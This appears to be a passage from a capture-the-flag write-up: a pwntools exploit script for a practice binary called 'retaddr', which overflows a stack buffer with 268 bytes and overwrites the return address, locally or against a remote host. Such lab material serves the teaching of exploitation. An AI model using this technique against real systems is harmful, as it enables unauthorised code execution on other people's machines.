 附攻击脚本：

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Time    : 2020/11/21 9:12
# @Author  : ouzy
# @File    : retaddr.py

from pwn import *
binary_file = './retaddr'                # 文件名
context.binary = binary_file

# switches

if len(sys.argv) == 1:
    DEBUG = 1
else:
    DEBUG = 0
# modify this
if DEBUG:
    io = process([binary_file])
else:
    io = remote(sys.argv[1], int(sys.argv[2]))

context(log_level='debug')

# define symbols and offsets here

offset = 268
vuln = 0x0804856B               # main


# define exploit function here
def pwn():

    # gdb
    print "pid: " + str(proc.pidof(io))
    raw_input()

    payload = flat(['A' * offset, vuln])
    io.recvuntil("?\n")
    io.sendline(payload)
    io.interactive()
    return


if __name__ == '__main__':
    pwn()

```
